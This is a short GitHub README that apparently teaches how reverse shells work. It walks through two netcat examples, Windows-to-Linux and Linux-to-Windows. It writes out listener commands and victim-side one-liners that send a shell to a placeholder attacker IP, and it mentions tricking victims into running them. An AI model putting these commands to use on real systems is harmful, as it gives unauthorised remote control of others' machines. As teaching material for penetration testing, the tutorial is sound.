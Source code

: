 # Reverse-shell-access-using-netcat

I was gain a Reverse shell access uisng netcat in kali linux from windows ...vice versa

# What is Reverse shell access

A reverse shell is a type of connection where a target machine (the victim) initiates a connection back to an attacker’s machine. This allows the attacker to control the target machine remotely by executing commands on it.

# How Reverse Shell Works:

Attacker's Machine: Listens for incoming connections.

Victim's Machine: When compromised, it connects back to the attacker's machine, giving the attacker remote access.

# Two Simple Examples:

# Example 1: Attacker on Windows, Victim on Linux
**Attacker (Windows)**: Sets up a listener using netcat.

**Command**: ncat -lvp 4444

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/1.png)

**This means**: "Listen on port 4444 and wait for a connection."

**Victim** (Linux): The attacker tricks the victim into running a command.

**Command**: nc <**Attacker_IP**> 4444 -e /bin/bash

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/2.png)

**This means**: "Connect to the attacker's IP on port 4444 and give them access to my shell."

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/3.png)

**Result**: The attacker now controls the Linux machine from the Windows machine.

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/4.png)

# Example 2: Attacker on Linux, Victim on Windows
**Attacker** (Linux): Listens for incoming connections.

**Command**: nc -lvp 5555

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/a8b13cfa76e8c0df3e40224d2b9f102ba15a2039/images/5.png)

**Victim** (Windows): The attacker gets the victim to run this command.

**Command**: ncat <**Attacker_IP**> 5555 -e cmd.exe

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/a8b13cfa76e8c0df3e40224d2b9f102ba15a2039/images/6.png)

**This means**: "Connect to the attacker’s IP on port 5555 and give them access to my Windows command prompt."

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/a8b13cfa76e8c0df3e40224d2b9f102ba15a2039/images/7.png)

**Result**: The attacker now has control over the Windows machine.

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/a8b13cfa76e8c0df3e40224d2b9f102ba15a2039/images/8.png)

# In Summary:
**Reverse Shell**: The victim's machine connects back to the attacker's machine.
**Purpose**: Allows remote control over the victim's machine.
**Usage**: Often used in penetration testing or by hackers.
